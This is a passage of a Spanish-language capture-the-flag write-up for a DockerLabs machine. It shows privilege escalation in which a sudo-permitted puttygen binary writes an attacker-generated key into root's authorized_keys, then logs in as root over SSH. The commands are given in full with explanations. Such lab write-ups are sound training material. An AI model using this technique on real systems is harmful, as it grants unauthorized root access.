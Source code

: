 #### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/15adcfd1-5136-4e3b-8ffe-3907b333861c)

Despues de realizar el tratamiento de la TTY, al hacer el comando `sudo -l`, tenemos permisos de ejecución del binario `puttygen`.

#### puttygen
Puttygen se utiliza específicamente para generar claves SSH. Vamos a generar una clave para el usuario root.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/86ae8c9b-8c05-4a22-8fb8-7da63e117ab6)

Los comandos que ejecutamos fueron:
```python
- puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked

- puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys

- sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked

- sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh

- ssh -i /home/curiosito/.ssh/hacked root@localhost
```
on `puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked` se crea una clave RSA de 2048 bits y se guarda en `~/.ssh/hacked`. Luego, `puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys` añade la clave pública a `~/.ssh/authorized_keys` para autenticación SSH. El comando `ssh -i /home/curiosito/.ssh/hacked root@localhost` inicia una conexión SSH usando la clave privada generada.


